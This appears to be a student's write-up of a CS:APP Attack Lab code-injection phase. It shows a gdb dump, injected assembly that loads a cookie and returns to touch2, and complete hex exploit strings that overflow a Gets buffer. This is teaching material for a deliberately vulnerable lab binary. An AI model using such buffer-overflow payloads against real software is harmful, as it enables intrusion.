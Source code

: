 ```sh
   0x00000000004016e8 <+17>:    add    $0x38,%rsp
   0x00000000004016ec <+21>:    retq   
End of assembler dump.
(gdb) p $rsp
$4 = (void *) 0x5567c608
```

`%rsp` in getbuf is `0x5567c608`.  
If `Gets` would return to it, we can inject exploit code in `%rsp` and then execute them.  
To call `touch2` while changing the parameter. We need to execute following instructions:

```s
mov $0x110dfc17, %rdi   # mov cookie to param1
pushq $0x40171b         # push address of touch2
ret
```

whose byte code is:

```s

asm-exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 17 fc 0d 11 	mov    $0x110dfc17,%rdi
   7:	68 1b 17 40 00       	pushq  $0x40171b
   c:	c3                   	retq   
```

We need to inject these byte code to `%rsp` and overwrite the return address after 56 bytes.

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```

Also, adding some magic :joy:

```txt
48 c7 c7 17 fc 0d 11 68
1b 17 40 00 c3          /* exploit byte code, 13 bytes */
48 6f 70 65 2c 61 20 67 /* Hope,a good thing. No good things ever dies */
6f 6f 64 20 74 68 69 6e
67 2e 20 4e 6f 20 67 6f
6f 64 20 74 68 69 6e 67
73 20 65 76 65 72 20 64
69 65 73
08 c6 67 55             /* after Gets, return to %rsp, 4 bytes */
```
